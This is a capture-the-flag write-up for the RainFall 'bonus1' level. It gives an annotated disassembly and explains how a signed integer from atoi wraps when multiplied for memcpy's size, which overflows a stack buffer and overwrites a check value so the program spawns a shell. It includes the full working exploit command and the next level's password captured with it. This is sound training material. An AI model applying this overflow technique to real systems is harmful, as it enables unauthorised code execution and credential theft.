 # bonus1

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     and    esp,0xfffffff0
   0x0804842a <+6>:     sub    esp,0x40
   0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]              ; ⎤                                                 
   0x08048430 <+12>:    add    eax,0x4                              ; ⎦ add 4 to argv: get argv[1]                      
   0x08048433 <+15>:    mov    eax,DWORD PTR [eax]                  ; dereference argv[1]: get the string directly      
   0x08048435 <+17>:    mov    DWORD PTR [esp],eax                  ; prepare call to atoi with argv[1]                 
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>                 ; call atoi(argv[1])                                
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax             ; move atoi result to esp+0x3c                      
   0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9             ; compare argv[1] to 9                              
   0x08048446 <+34>:    jle    0x804844f <main+43>                  ; if argv[1] <= 9: jump to <main+43>              ⎤ 
   0x08048448 <+36>:    mov    eax,0x1                              ; return(1)                                       ⎥ 
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>                 ; jump to the end <main+127>                      ⎥ 
   0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]             ; get argv[1] argument (stored at <main+25>)      ⎦ 
   0x08048453 <+47>:    lea    ecx,[eax*4+0x0]                      ; ecx is initialize                                 
   0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]              ; ⎤                                                
   0x0804845d <+57>:    add    eax,0x8                              ; ⎦ get argv[2]                                     
   0x08048460 <+60>:    mov    eax,DWORD PTR [eax]                  ; ⎤                                                 
   0x08048462 <+62>:    mov    edx,eax                              ; ⎥                                                 
   0x08048464 <+64>:    lea    eax,[esp+0x14]                       ; ⎥                                                 
   0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx              ; ⎥                                                 
   0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx              ; ⎥                                                 
   0x08048470 <+76>:    mov    DWORD PTR [esp],eax                  ; ⎥                                                 
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>               ; ⎦ call memcpy(buf, argv[2], ecx)                  
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46      ; compare argv[1] address to 0x574f4c46             
   0x08048480 <+92>:    jne    0x804849e <main+122>                 ; if not equal: jump to <main+122>                ⎤ 
   0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0              ;                                                 ⎥ 
   0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580        ;                                                 ⎥ 
   0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583            ;                                                 ⎥ 
   0x08048499 <+117>:   call   0x8048350 <execl@plt>                ; execl("bin/sh")                                 ⎥ 
   0x0804849e <+122>:   mov    eax,0x0                              ; return(0)                                       ⎦ 
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

## Exploit

`bonus1` take _two_ arguments:

- The first is an _signed_ `int` because of `atoi`.
- The second is a string which is copied by `memcpy` to a buffer on the stack.

We are going to exploit the fact that `memcpy` takes a `size_t` (unsigned integer) argument and the first one is a signed
integer: it is an _integer overflow_.

We need to find a `int` that is less than 9 (`<main+34>`). Then, this `int` is used for `memcpy` size but it is
multiplied by 4 before it uses it. Finally the same `int` returned by `atoi` is compared to `0x574f4c46`, which is a big
positive value... It seems to be difficult to find a value that is less than 9 and equal to 1464814662 (`0x574f4c46`).

That is without counting on integer overflow. This integer overflow will lead us to a buffer overflow by `memcpy`
because the `int` value returned by `atoi` is stored next to the buffer. So we are going to crush its value.

In `Resources`, we have a small C program to visualize a number as signed, unsigned and hexadecimal representation.

Let's find how big is the buffer for `memcpy`:

```gdb
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
```

Here, `atoi` return is stored at `esp+0x3c`.

```gdb
   0x08048464 <+64>:    lea    eax,[esp+0x14]
```

Before `memcpy` call, we notice that the buffer begins at `esp+0x3c`. Thus the total size of the buffer seems to be
`0x3c - 0x14` that is to say `40`. Consequently, the `int` value we are targetting is at 41th, 42th, 43th and 44th
bytes. So we know that the second argument is going to be something like `python -c 'print "A" * 40 +
"\x46\x4c\x4f\x57"`.

Let's find the integer trick for the first argument. We take the minimal signed integer and add 11 (because the buffer
is 4 times 11). Let's simulate how it is going to work inside the function:

```python
>>> -2**31 + 11         ; Take the INT_MIN and add (buffer_size / 4)                                                    
-2147483637                                                                                                             
>>> hex(2147483659 * 4) ; This value in hexadecimal is multiplied by 4                                                  
'0x20000002c'           ; It gives us 0x20000002c which corresponds to 0x0000002c in unsigned int                       
>>> 0x2c                                                                                                                
44                      ; Which is equal to 44                                                                          
```

Thus the `size_t` value in `memcpy` is going to be `0x2c` (`44`). It overrides the first argument on the stack
by `0x574f4c46`. Win!

```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
